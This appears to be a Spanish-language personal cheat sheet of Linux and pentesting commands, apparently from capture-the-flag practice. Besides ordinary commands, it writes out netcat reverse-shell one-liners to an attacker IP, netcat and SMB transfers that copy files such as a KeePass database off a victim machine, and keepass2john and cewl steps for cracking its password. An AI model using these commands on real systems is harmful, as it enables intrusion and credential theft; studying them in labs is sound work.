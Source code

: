 # Comandos Linux


- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash y miramos con ls -l (l=ele)
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux

- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

- Server Comando -> **nc.exe -e cmd < NUESTRA IP> < PUERTO>** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico

- Comando -> **nc < Nuestra IP> 443 < secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux, para mandar un archivo por netcat a nuestra direccion IP, esto desde la maquina victima
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux esto en la maquina de atacante para recibir el archivo y colocarlo con la misma extencion y el mismo nombre.

- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
	- **\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443 (Se coloca en la maquina victima)
	- **copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	- **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente
	- **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash 

- Comando -> **cewl -w < FileName.txt> <http://URL/>** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto